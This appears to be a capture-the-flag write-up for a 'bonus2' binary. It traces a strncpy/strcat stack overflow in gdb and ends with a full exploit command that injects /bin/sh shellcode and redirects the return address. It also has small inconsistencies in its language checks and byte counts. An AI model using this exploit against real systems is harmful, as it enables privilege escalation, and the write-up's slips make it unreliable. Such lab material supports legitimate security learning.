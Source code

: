 we run the program with gdb and we start analyzing it:
In main we have a cmp in <+15> of argc and 3, that means we should enter 2 arguments or the program will exit, next at line <+78> we have a strncpy(0xbffff650, argv[1], 40) that means it will copy the first 40 characters of argv[1] into that address, and after there is another strncpy(0xbffff678, argv[2], 32) which means it will copy the first 32 characters of argv[2] into 0xbffff678. (NOTE here that the second destination address comes exactly 40 bytes after the first destination address 0xbffff650, that means if we fill all memory addresses in dst1, and since dst2 comes directly after they will be considered as only one string).
after we call getenv("LANG"), and we see the first 2 characters in that env variable, if it's "fi" or "nl" then the language variable will be set to 1 and 2 respectively, then we call greetuser(), in this function we will be setting the greet message depending on the value of language:
if language == 1 then greet = "Hyvää päivää "
if language == 1 then greet = "Goedemiddag! "
else greet = "Hello ";
after that it will concatenate this greet message with dst1 into the address 0xbffff5a0. (as we said earlier if we fill all the 40 characters of dst1, dst2 will be concatenated with it as well since it comes directly after it with no "\0").
We run the program with arg1="A"*40 and arg2="B"*32 and then try inspecting the stack after strcat:
(gdb) x $ebp+4
0xbffff5ec:	0x08004242
(gdb) x/40wx $esp
0xbffff590:	0xbffff590	0xbffff5e0	0x00000001	0x00000000
0xbffff5a0:	0x6c6c6548	0x4141206f	0x41414141	0x41414141
0xbffff5b0:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff5c0:	0x41414141	0x41414141	0x41414141	0x42424141
0xbffff5d0:	0x42424242	0x42424242	0x42424242	0x42424242
0xbffff5e0:	0x42424242	0x42424242	0x42424242	0x08004242
first important information is that the return address ebp+4 comes 76 bytes after our string that starts from 0xbffff590:
["Hello "(6)+"40*A"(40)+"32*B"(32)]=78 and that's why only 2 of our Bs slipped into the return address.hence why it will segfault. it also means we can't overwrite it completely since that's the max our arguments can take. unless we try changing the "LANG" variable, that means our greet message will grow.
let's try changing it to fi (export LANG=nl_US.UTF-8.
["Goedemiddag! "(13)+"40*A"+"27*B"(27)]=80 that means we can can overwrite the ret address now. we will redirect the code to the start of our string + 13 to start reading directly from the shellcode we put in arg1.

`cat | ./bonus2 $(python -c 'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "A"*19') $(python -c 'print "B"*23 + "\xad\xf5\xff\xbf"')`

Sometimes addresses of variables in gdb will be different outside gdb this is why we can try adding ‘unset env LINES’ and ‘unset env COLUMNS’ in gdb or offseting the ret address for example "\xbd\xf5\xff\xbf"
